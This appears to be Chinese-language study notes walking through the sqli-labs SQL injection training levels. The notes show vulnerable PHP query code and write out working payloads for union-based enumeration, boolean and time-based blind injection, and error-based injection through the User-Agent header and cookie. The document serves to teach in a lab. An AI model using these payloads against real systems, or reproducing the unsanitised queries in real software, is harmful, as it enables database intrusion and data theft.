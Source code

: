 ## 1-6

有直接的显错以及回显,熟悉一下 SQL injection 的基本套路：

编码， union联合select， mysql 的结构

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
        ...
        //输出结果
  	}
	else 
	{
        //回显错误
        print_r(mysql_error());
        ...
	}
```

1. use for test

?id=0' union select 1,2,3#

?id=0%27%20union%20select%201,2,3%23



2. concat and concat_ws

?id=0' union select 1,2,concat_ws(char(32,58,32),user(),database(),version())#

?id=0%27%20union%20select%201,2,concat_ws(char(32,58,32),user(),database(),version())%23

回显 Your Password:root@localhost : security : 10.1.19-MariaDB


user():返回当前数据库连接使用的用户

database():返回当前数据库连接使用的数据库

version():返回当前数据库的版本



3. select tables test

select table_name from information_schema.tables where table_schema=0x7365637572697479

?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 0,1#

?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 1,1#

?id=0' union select 1,2,table_name from information_schema.tables where table_schema=0x7365637572697479 limit 2,1#

4. select user tables

>Get databases
?id=0' union select 1,2,SCHEMA_NAME from information_schema.SCHEMATA limit 0,1#



## 7-10

没有回显的情况下，如何使用bool型盲注与时间盲注。

1. substr

select substr(database(),1,1);

select ascii(substr(database(),1,1));


2. bool injection

?id=1′ AND ascii(substr((select database()) ,3,3)) = 99 #

true:: ?id=1%27%20AND%20ascii(substr((select%20database())%20,3,3))%20=%2099%23

false: ?id=1%27%20AND%20ascii(substr((select%20database())%20,3,3))%20=%2098%23


3. time based

true:
?id=1' and if(ascii(substr((select database()) ,3,3)) = 99,0,sleep(10)) #
false sleep 10 sec:
?id=1' and if(ascii(substr((select database()) ,3,3)) = 98,0,sleep(10)) #


## 11-17

从get变成了post，参数油一个变成了2个，没有什么特别大的区别

## 18-20

新的内容，HTTP 头注入,cookie注入

```
$uname = check_input($_POST['uname']);	$passwd = check_input($_POST['passwd']); //输入进行了过滤

$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
//但是insert语句中的uagent 与IP没有进行判断，所以可以注入


```

```
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES (",updatexml(0,concat(0x2b5e,database()),0),',')#。
```

同理 cookie 
```
isset($_COOKIE['uname'])

$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
//虽然输入过滤了，但是对cookie没有过滤
```

## 21，22 跑不起来

## 附 在insert update 语句中注入

``` insert into users (id, username, password) values (2,''inject here'','Olivia'); ```

